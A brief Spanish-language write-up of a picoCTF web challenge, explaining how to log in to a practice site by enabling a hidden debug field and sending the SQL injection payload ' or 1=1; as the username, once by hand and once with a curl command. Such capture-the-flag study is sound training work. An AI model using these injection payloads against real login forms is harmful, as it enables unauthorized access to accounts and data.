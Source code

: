 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución
Solución 1:
1. Habilitar el campo oculto como visible.
2. ponerle 1.
3. El usuario debe ser **' or 1=1;**
Solucion 2:
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username= ' or 1=1; & password=admin&debug=1"
## Notas adicionales
## Referencias